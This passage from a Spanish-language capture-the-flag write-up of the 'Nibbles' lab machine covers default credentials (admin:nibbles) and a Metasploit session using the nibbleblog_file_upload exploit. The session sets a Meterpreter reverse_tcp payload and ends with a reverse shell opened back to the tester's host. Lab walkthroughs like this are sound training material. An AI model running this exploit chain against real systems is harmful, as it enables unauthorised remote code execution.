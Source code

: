 - **install.php**
- **update.php**


Estos archivos son accesibles públicamente y podrían proporcionar pistas sobre la configuración o incluso métodos para explotar el sistema. Buscando en la guia oficial, localizamos el login por defecto **admin:nibbles**


## Explotación de Vulnerabilidades en Nibbleblog

Ahora que hemos identificado varios vectores potenciales de ataque, procedemos a explotar las vulnerabilidades del sistema Nibbleblog utilizando la herramienta `Metasploit`.

### Configuración de Metasploit

Primero, iniciamos `msfconsole` y buscamos un exploit apropiado para Nibbleblog. 

![Imagen del mensaje 'source' en index.html](</img/posts/CTF/Nibbles/msfc.png>) 

Una vez seleccionado el exploit, revisamos y configuramos las opciones necesarias para ejecutarlo adecuadamente.

### Ejecución del Exploit

A continuación, se muestra la configuración del exploit `nibbleblog_file_upload` y el lanzamiento del ataque:

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> use 0
[*] Using configured payload php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> show options

# Aquí se mostrarían las opciones del módulo y las opciones de la carga útil.

[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set password nibbles
password => nibbles
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set username admin
username => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set targeturi /nibbleblog/
targeturi => /nibbleblog/
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set rhosts 10.10.10.75
rhosts => 10.10.10.75
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set LHOST 10.10.14.19
LHOST => 10.10.14.19
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> run

[*] Started reverse TCP handler on 10.10.14.19:443 
[*] Sending stage (39927 bytes) to 10.10.10.75
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.14.19:443 -> 10.10.10.75:53786) at 2024-06-24 07:45:35 +0200
```
